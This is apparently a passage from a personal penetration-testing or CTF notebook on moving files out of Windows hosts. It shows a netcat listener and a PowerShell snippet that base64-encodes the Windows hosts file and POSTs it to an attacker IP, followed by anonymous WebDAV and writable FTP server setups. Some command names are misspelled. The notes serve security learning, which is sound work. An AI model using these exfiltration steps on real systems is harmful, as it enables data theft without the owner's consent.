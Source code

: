 The second upload method (upload a string) needs Netcat on remote Linux host

```bash
nc -lnvp 8000
```

Now, I can insert a base64 string in the body request and send it to the remote host

```powershell
$b64 = [Ssytem.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.14.9/ -Method POST -Body $b64
```

<figure><img src="../../../.gitbook/assets/netcat-linux-upload.png" alt=""><figcaption></figcaption></figure>

When I receive the base64 string on the web server, I can convert it.

```bash
echo 'IyBDb3B5cmlnaHQg...bnRy' | base64 -d -w 0 > hosts
```

## WebDAV

To configure the WebDAV server, I have to install 2 Python modules.

```bash
sudo pip install wsgidav cheroot
```

Then, I run `wsgidav` in the target directory.

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

... _(Need more content)_ ...

## FTP Uploads

I can create a FTP server on my Linux host. The flag `--write` allows clients to upload files.

```bash
sudo python3 -m pyftpddlib --port 21 --write
```

Then, I can upload my file from Windows with Powershell and I have to set the absolute path for the source file.
